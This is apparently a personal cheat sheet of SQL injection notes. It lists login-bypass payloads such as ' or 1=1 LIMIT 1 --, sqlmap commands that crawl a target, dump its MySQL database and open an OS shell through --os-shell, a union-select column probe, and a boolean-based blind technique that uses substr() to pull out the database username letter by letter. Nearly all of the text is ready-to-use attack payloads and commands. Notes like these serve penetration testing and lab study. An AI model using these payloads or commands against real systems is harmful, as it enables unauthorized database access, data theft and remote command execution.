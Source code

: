 SQL Injection General Notes

## SQL Injection General Notes

### Testing for Bypasses: 
```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

### SQLMAP

#### sqlmap crawl  
```
sqlmap -u http://172.21.0.0 --crawl=1
```

#### sqlmap dump database  
```
sqlmap -u http://172.21.0.0 --dbms=mysql --dump
```

#### sqlmap shell  
```
sqlmap -u http://172.21.0.0 --dbms=mysql --os-shell
```

### SQLi

Testing for a row: 
```
http://target-ip/inj.php?id=1 union all select 1,2,3,4,5,6,7,8
```

### Boolean Based SQLi

`substring()` returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.

- ` or substr(user(), 1, 1) = 'a` -> if true, move onto then letter:
- ` or substr(user(), 2, 1) = 'b`

 Continue until username is revealed. 